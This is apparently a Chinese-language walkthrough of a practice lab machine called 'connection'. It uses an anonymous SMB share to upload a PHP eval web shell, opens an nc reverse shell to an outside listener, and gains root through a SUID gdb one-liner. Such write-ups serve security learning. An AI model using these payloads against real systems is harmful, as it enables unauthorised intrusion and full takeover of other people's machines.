

# connection

`fscan`扫描发现开放`smb`的`139`和`445`以及`22`、`80`

```bash
$ fscan -h 192.168.1.95

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.1.95:22 open
192.168.1.95:80 open
192.168.1.95:139 open
192.168.1.95:445 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://192.168.1.95       code:200 len:10701  title:Apache2 Debian Default Page: It works
[*] OsInfo 192.168.1.95	(Windows 6.1)
[*] NetBios 192.168.1.95    WORKGROUP\connection                Windows 6.1
```

但是访问网页发现仅仅是个静态网站


但是发现`smb`可以匿名连接

```bash
smbclient -L 192.168.1.95
```


进入`share`查看

```
smbclient //192.168.1.95/share
```


发现就是首页的文件，说明可以直接上传`webshell`到站点，上传`1.php`内容为

```
<?php @eval($_POST[1]); ?>
```


还是一样的找`suid`提权

```bash
find / -perm -4000 -type f 2>/dev/null
```


发现`gdb`可以提权

```bash
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

先反弹shell出来，各种bash弹不了，上传nc

```bash
./nc 192.168.1.94 9999 -e /usr/bin/bash
```

使用命令提权

```
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

